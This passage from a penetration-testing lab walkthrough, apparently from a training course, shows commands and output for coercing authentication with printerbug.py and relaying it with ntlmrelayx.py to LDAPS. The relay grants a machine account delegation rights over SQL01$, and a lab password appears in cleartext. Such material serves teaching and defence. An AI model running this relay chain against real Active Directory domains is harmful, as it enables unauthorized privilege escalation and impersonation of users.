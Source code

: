 Code: shell

```shell
cd tools/krbrelayx
python3 printerbug.py inlanefreight.local/Academy-Student$:'5l}2/.dQifU><dO'@172.16.117.60 LINUX01@80/print
```

```shell-session
htb-student@ubuntu:~$ cd tools/krbrelayx/
htb-student@ubuntu:~/tools/krbrelayx$ python3 printerbug.py inlanefreight.local/Academy-Student$:'5l}2/.dQifU><dO'@172.16.117.60 LINUX01@80/print

[*] Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Attempting to trigger authentication via rprn RPC at 172.16.117.60
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
[*] Triggered RPC backconnect, this may or may not have worked
```

Subsequently, students will come to know that the coerced authentication was successful and relayed, and the attack has succeeded as `Academy-Student$` can now impersonate users on `SQL01$` via `S4UProxy`.

Code: shell

```shell
sudo ntlmrelayx.py -t ldaps://INLANEFREIGHT\\'SQL01$'@172.16.117.3 --delegate-access --escalate-user 'Academy-Student$' --no-smb-server --no-dump
```

```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t ldaps://INLANEFREIGHT\\'SQL01$'@172.16.117.3 --delegate-access --escalate-user 'Academy-Student$' --no-smb-server --no-dump
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to single host
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server

[*] Setting up RAW Server on port 6666
[*] Servers started, waiting for connections
<SNIP>
[*] HTTPD(80): Connection from INLANEFREIGHT/SQL01$@172.16.117.60 controlled, attacking target [ldaps://INLANEFREIGHT](ldaps://INLANEFREIGHT)\SQL01$@172.16.117.3
[*] HTTPD(80): Authenticating against [ldaps://INLANEFREIGHT](ldaps://INLANEFREIGHT)\SQL01$@172.16.117.3 as INLANEFREIGHT/SQL01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] All targets processed!
[*] HTTPD(80): Connection from INLANEFREIGHT/SQL01$@172.16.117.60 controlled, but there are no more targets left!
[*] Delegation rights modified succesfully!
[*] Academy-Student$ can now impersonate users on SQL01$ via S4U2Proxy
```
